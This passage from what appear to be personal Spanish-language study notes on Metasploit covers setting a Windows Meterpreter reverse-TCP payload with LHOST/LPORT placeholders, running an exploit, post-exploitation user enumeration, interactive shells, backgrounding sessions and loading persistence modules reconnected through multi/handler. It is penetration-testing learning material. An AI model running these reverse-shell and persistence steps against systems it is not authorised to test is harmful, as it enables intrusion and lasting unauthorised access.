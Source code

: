 Elige el payload a ejecutar en el sistema vulnerable:


`set PAYLOAD windows/meterpreter/reverse_tcp set LHOST <IP_tuya> set LPORT <puerto>`

### 9. **Ejecutar el exploit**

Finalmente, ejecuta el exploit:


`exploit`

Si el exploit es exitoso, tendrás acceso al sistema remoto.

### 10. **Post-explotación**

Metasploit ofrece varios módulos de post-explotación para extraer información o mantener el acceso:

- **Ejemplo**: Enumerar usuarios
    
    
    `use post/windows/gather/enum_logged_on_users set SESSION <ID_de_la_sesion> run`
    

### 11. **Salir de Metasploit**

Para salir de Metasploit, simplemente escribe:

bash

Copy code

`exit`

---------

Iniciar la aplicación 

```
msfdb run 
```

La mayoria de exploits estan programadpos en ruby

La ruta de metaesplot es usr/share/metaesplot-framework

Se pueden configurar espacios de trabajp de ña sifguiente fotma 

![[Pasted image 20241103230822.png]]

Con el comando shell desde metaesploit listener podemos conseguir una consola interactiva de bash para poder ejecutar los comandos que queramos 

Podemos dejar en segundo plano las sessiones de la siguiente manera 

![[Pasted image 20241103233554.png]]


Podemos filtrar por exploits de persisetncia de la siguiente manera 

![[Pasted image 20241103233702.png]]

![[Pasted image 20241103234136.png]]


Posteriormente de Sertear el script de persistencia y de setear la session que queremos, le daboas a run y ya en un modiulo normal de metaesploit como el multihandler podriamos volvernos a concetar a las sessiones




